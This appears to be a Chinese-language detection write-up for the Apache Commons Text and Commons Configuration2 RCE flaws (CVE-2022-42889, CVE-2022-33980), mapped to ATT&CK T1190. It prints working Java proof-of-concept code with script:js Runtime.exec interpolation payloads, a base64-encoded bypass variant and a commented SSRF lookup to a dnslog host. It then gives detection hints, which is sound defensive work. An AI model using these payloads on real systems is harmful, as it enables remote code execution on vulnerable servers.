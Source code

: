 # T1190-CVE-2022-42889-Apache_Commons_Text_RCE

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

Apache Commons Text：该组件是一款处理字符串和文本块的开源项目，简单来说，除了核心Java提供的功能外，Apache Commons文本库还包含了许多有用的实用程序方法，用于处理字符串。通常在开发过程中用于占位符和动态获取属性的字符串编辑工具包，常用于数据库查询前的语句替换，或者页面输出时的替换。

Apache Commons Text执行变量插值，允许动态评估和扩展属性。插值的标准格式是“$｛prefix:name｝”，其中“prefix”用于查找org.apache.commons.text.loookup的实例，执行插值的StringLookup 。从1.5版开始一直到1.9版，默认Lookup实例集包括插值器，这些插值器可能导致任意代码执行或与远程服务器通信。这些查找是：-“script”-使用JVM脚本执行引擎（javax.script）执行表达式-“dns”-解析dns记录-“url”-从url加载值，如果使用不受信任的配置值，则受影响版本中使用插值默认值的应用程序，可能容易受到远程代码执行或与远程服务器无意接触的影响。建议用户升级到Apache Commons Text 1.10.0，默认情况下会禁用有问题的插值器。

### 受影响版本

```yml
1.5 <= Apache Commons Text <= 1.9
```

### EXP/POC

请勿用做非法用途，仅用于流量分析检测。

#### CVE-2022-42889

```java
import org.apache.commons.text.StringSubstitutor;

public class CommonsPoc {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
// 命令执行
//      String poc = interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}");
// SSRF
//      String poc = interpolator.replace("${url:utf-8:http://*.dnslog.cn}");
// 命令执行base64编码绕过
        String poc = interpolator.replace("${base64Decoder:JHtzY3JpcHQ6anM6amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoIm9wZW4gL1N5c3RlbS9BcHBsaWNhdGlvbnMvQ2FsY3VsYXRvci5hcHAiKX0=}");

    }
}
```

#### CVE-2022-33980

``` java
package com.exploit.payloadclass;

import org.apache.commons.configuration2.interpol.ConfigurationInterpolator;
import org.apache.commons.configuration2.interpol.InterpolatorSpecification;

public class CommonsConfiguration2Poc {
    public static void main(String[] args) {
        InterpolatorSpecification interpolatorSpecification = new InterpolatorSpecification.Builder().withPrefixLookups(ConfigurationInterpolator.getDefaultPrefixLookups())
                .withDefaultLookups(ConfigurationInterpolator.getDefaultPrefixLookups().values()).create();
        ConfigurationInterpolator interpolator = ConfigurationInterpolator.fromSpecification(interpolatorSpecification);
        System.out.println(interpolator.interpolate("${script:js:java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\")}"));
    }
}
```


## 检测日志

HTTP.log

## 测试复现

无

## 测试留痕

无

## 检测规则/思路

分析思路：

- 关注getRuntime().exec前后参数及参数返回内容
- 关注命令执行编码绕过行为，需解码分析

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Apache commons-text和Configuration 命令执行CVE-2022-42889/CVE-2022-33980分析

<https://blog.csdn.net/qq_34101364/article/details/127338170>

text4shell CVE-2022-42889 poc

<https://www.ddosi.org/cve-2022-42889/>

【漏洞分析】Apache Commons Text远程代码执行漏洞（CVE-2022-42889）

<https://blog.csdn.net/olga5abl/article/details/128111570>
